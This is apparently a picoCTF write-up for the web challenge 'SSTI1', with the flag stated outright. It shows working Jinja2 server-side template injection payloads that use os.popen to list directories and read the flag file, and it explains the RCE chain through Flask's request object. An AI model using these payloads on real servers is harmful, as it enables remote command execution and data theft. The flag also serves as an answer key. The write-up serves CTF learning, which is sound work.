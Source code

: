 ## SSTI1
Author: Venax

Category: Web Exploitation

Difficulty: Easy

## Description
I made a cool website where you can announce whatever you want! Try it out!

Additional details will be available after launching your challenge instance.

## Solve 
**Flag:** `picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_09365533}`

- In this challenge, since the website annouces everything we type, then we can use it to try out server side template injection attacks.
- Here, I first identified the type of template the server was using. It turned out to be `jinja2`. Payload: `{{7*'7'}}`

   jinja 

- So I searched around and found what kind of payloads we can use to list out the contents of the server. Using that, I found out that a `challenge` directory exists on the server. Payload: `{{ request.application.__globals__.__builtins__.__import__('os').popen('ls -la /').read() }}`
   
   og contents

- So once again I used the same payload with some changes to list out the contents of the `challenge` directory. Payload: `{{ request.application.__globals__.__builtins__.__import__('os').popen('ls -la /challenge').read() }}`

   challenge contents

- In that, I found the flag file. So again I modified the payload and this time used it to display the contents of the flag file to get the flag. Payload: `{{ request.application.__globals__.__builtins__.__import__('os').popen('cat /challenge/flag').read() }}`

   flag

## Learnings 
1. Vulnerability Confirmation: We used simple math payloads (e.g., {{ 7*7 }}) to confirm the input was being processed by a Jinja2 template engine.
2. Privilege Escalation: By observing that the RCE payload (using os.popen or subprocess.Popen) returned root for UID/GID, we confirmed the template engine was running with maximum system privileges.
3. RCE via the request Object: We learned the most reliable Jinja2 RCE chain for Flask applications: accessing the global scope via the available request object (request.application.__globals__).
4. Module Loading: We confirmed that to execute arbitrary shell commands, we must use the built-in Python function __import__('os') to load the os module.
5. Information Gathering: We used the RCE capability to pivot from template injection to filesystem exploration using Linux shell commands like ls -la / and cat /path/to/flag.

## References
1. [Server side template injection with jinja2](https://onsecurity.io/article/server-side-template-injection-with-jinja2/)